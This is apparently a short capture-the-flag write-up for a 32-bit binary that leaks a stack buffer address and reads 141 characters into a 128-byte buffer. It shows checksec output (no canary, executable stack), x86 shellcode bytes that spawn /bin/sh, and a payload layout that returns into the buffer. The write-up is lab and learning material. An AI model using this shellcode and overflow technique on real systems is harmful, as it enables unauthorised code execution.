 **Read source code**
- We can see there the program leak the address of buf `printf("buf = (%p)\n", buf);`
- `buf`(0x80) but scanf `scanf("%141s", buf);` => Buffer overflow
- `Checksec` in gdb
```
Arch:     i386
RELRO:      No RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x8048000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```
- So the idea is that store the shellcode into `buf` and return adress of buff.
---  
***PWNTOOLS***
- shellcode for x86 `\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80`
- payload = shellcode + (offset from buff to ret - len(shellcode)) + buf
